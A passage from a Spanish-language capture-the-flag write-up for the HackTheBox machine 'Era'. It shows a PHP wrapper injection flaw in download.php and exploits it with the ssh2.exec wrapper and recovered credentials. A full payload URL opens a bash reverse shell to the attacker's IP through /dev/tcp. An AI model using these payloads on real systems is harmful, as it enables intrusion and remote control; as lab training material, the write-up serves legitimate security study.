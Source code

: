 ya sabemos cual es el usuario admin `admin_ef01cab31aa` asi que le podemos cambiar las respuestas de seguridad y accedemos como el usuario admin (mismo proceso anterior)

### Inyeccion de Wrapper PHP

existe otra vulnerabilidad en el codigo fuente que sera la que nos permitira obtener `RCE`, esta vez se localiza en el archivo `download.php`

>>> Fragmento de codigo Vulnerable a inyeccion Wrapper PHP

```php
$format = isset($_GET['format']) ? $_GET['format'] : '';
// ...
if (strpos($format, '://') !== false) {
    $wrapper = $format;
    header('Content-Type: application/octet-stream');
}
// ...
$file_content = fopen($wrapper ? $wrapper . $file : $file, 'r');
```
El problema principal está en cómo se maneja el parámetro `format:`.
Esto lo podriamos explotar con privilegios de administrador usando wrappers PHP maliciosos. El problema es que aunque si podemos inyectar el wrapper, 
no es posible ejecutar codigo ya que `fopen` no nos permite ejecutar codigo, para esto necesitariamos que en vez de `fopen` estuviera un `include` o `require` y asi podriamos lograr `rce`.
 
Pero no todo esta perdido porque investigando diferentes tipos de wrappers me consegui con uno que al testearlo logramos `RCE` `Wrapper PHP ssh2.exec`
 
Explotacion:
 
Primero nos loguemos como el usuario administrador `admin_ef01cab31aa`, despues testeamos el wrapper
 
Sintaxis
```java
ssh2.exec://<user>:<pass>@<ip>/<comando>
```
Despues de testear con las credenciales que hemos ido obteniendo durante el camino, dimos por fin con el `RCE`
      
payload
```bash
http://file.era.htb/download.php?id=150&show=true&format=ssh2.exec://eric:america@127.0.0.1/%2Fbin%2Fbash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.128%2F5551%200%3E%261%22;id
```
 
<img width="1920" height="1077" alt="image" src="https://github.com/user-attachments/assets/88225128-48e0-415f-9a3f-12c75661d105" />

Obtuvimos una revershell

>>> Es necesario aclarar que para que el wrapper usado funcionara el host objetivo debe tener instaldo el cliente `ssh` en el sistema y tambien la extension en `php` del wrapper `ssh2`, ya que si esto no se cumple el wrapper no funciona

# Escalada de Privilegios
